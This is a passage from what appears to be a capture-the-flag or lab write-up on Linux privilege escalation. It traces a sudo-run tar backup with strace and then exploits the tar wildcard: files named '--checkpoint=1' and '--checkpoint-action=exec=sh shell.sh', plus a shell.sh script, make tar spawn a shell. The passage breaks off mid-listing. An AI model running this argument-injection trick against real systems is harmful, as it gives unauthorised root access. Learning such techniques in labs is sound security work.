     [pid  1779] execve("/bin/sh", ["sh", "-c", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin; cd /usr/share/nginx/serverchecker/storage; /bin/tar -zvcf /home/sean/backup_$(/bin/date +\"%Y%m%d\").tar.gz *;"], ["TAR_SUBCOMMAND=-c", "TAR_FORMAT=gnu", "TERM=unknown", "SHELL=/bin/bash", "USER=bryan", "TAR_BLOCKING_FACTOR=20", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "MAIL=/var/mail/bryan", "PWD=/usr/local/bin", "LANG=en_US.UTF-8", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "TAR_CHECKPOINT=1", "SHLVL=13", "SUDO_COMMAND=/usr/local/bin/dice", "HOME=/home/bryan", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/strace", "OLDPWD=/tmp"]) = 0
    [pid  1781] execve("/bin/date", ["/bin/date", "+%Y%m%d"], ["TAR_FORMAT=gnu", "TAR_SUBCOMMAND=-c", "SHELL=/bin/bash", "TERM=unknown", "OLDPWD=/usr/local/bin", "TAR_BLOCKING_FACTOR=20", "USER=bryan", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "MAIL=/var/mail/bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "PWD=/usr/share/nginx/serverchecker/storage", "LANG=en_US.UTF-8", "TAR_CHECKPOINT=1", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "HOME=/home/bryan", "SUDO_COMMAND=/usr/local/bin/dice", "SHLVL=14", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/date"]) = 0
    [pid  1782] execve("/bin/tar", ["/bin/tar", "-zvcf", "/home/sean/backup_20160312.tar.gz", "app", "--checkpoint-action=exec=sh shell.sh", "database.sqlite", "framework", "logs", "shell.sh"], ["TAR_FORMAT=gnu", "TAR_SUBCOMMAND=-c", "SHELL=/bin/bash", "TERM=unknown", "OLDPWD=/usr/local/bin", "TAR_BLOCKING_FACTOR=20", "USER=bryan", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "MAIL=/var/mail/bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "PWD=/usr/share/nginx/serverchecker/storage", "LANG=en_US.UTF-8", "TAR_CHECKPOINT=1", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "HOME=/home/bryan", "SUDO_COMMAND=/usr/local/bin/dice", "SHLVL=14", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/tar"]) = 0
    [pid  1783] execve("/usr/local/bin/gzip", ["gzip"], ["TAR_FORMAT=gnu", "TAR_SUBCOMMAND=-c", "SHELL=/bin/bash", "TERM=unknown", "OLDPWD=/usr/local/bin", "TAR_BLOCKING_FACTOR=20", "USER=bryan", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "MAIL=/var/mail/bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "PWD=/usr/share/nginx/serverchecker/storage", "LANG=en_US.UTF-8", "TAR_CHECKPOINT=1", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "HOME=/home/bryan", "SUDO_COMMAND=/usr/local/bin/dice", "SHLVL=14", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/tar"]) = -1 ENOENT (No such file or directory)
    [pid  1783] execve("/bin/gzip", ["gzip"], ["TAR_FORMAT=gnu", "TAR_SUBCOMMAND=-c", "SHELL=/bin/bash", "TERM=unknown", "OLDPWD=/usr/local/bin", "TAR_BLOCKING_FACTOR=20", "USER=bryan", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "MAIL=/var/mail/bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "PWD=/usr/share/nginx/serverchecker/storage", "LANG=en_US.UTF-8", "TAR_CHECKPOINT=1", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "HOME=/home/bryan", "SUDO_COMMAND=/usr/local/bin/dice", "SHLVL=14", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/tar"]) = 0

* The `-s 999` allows to specify the maximum string size to print
* the -v prints more informations
* the -f see the child process calls, you would not see a lot of things without
  this flag

We can see that the `tar` utility is used. We have seen in the previous link
that we can exploit it using the `checkpoint`. The backup directory is
`/usr/share/nginx/serverchecker/storage`.

    :::text
    [bryan@fII bin]$ touch '/usr/share/nginx/serverchecker/storage/--checkpoint=1'
    [bryan@fII bin]$ touch '/usr/share/nginx/serverchecker/storage/--checkpoint-action=exec=sh shell.sh'
    [bryan@fII bin]$ echo '/bin/sh' > /usr/share/nginx/serverchecker/storage/shell.sh
    [bryan@fII bin]$ chmod +x /usr/share/nginx/serverchecker/storage/shell.sh
    [bryan@fII bin]$ ls -al /usr/share/nginx/serverchecker/storage/
    total 20
    drwxrwxrwx.  5 nginx nginx 4096 Mar 12 11:54 .
    drwxr-xr-x. 10 nginx nginx 4096 Jun 22  2015 ..
    drwxr-xr-x.  2 nginx nginx   23 Jun 22  2015 app
    -rw-rw-r--   1 bryan bryan    0 Mar 12 11:52 --checkpoint=1
    -rw-rw-r--   1 bryan bryan    0 Mar 12 11:53 --checkpoint-action=exec=sh shell.sh
    -rwxrwxrwx.  1 nginx nginx 6144 Feb 14 14:40 database.sqlite
    drwxr-xr-x.  5 nginx nginx   45 Jun 22  2015 framework
    drwxr-xr-x.  2 nginx nginx   39 Jun 22  2015 logs
    -rw-rw-r--   1 bryan bryan    8 Mar 12 11:54 shell.s
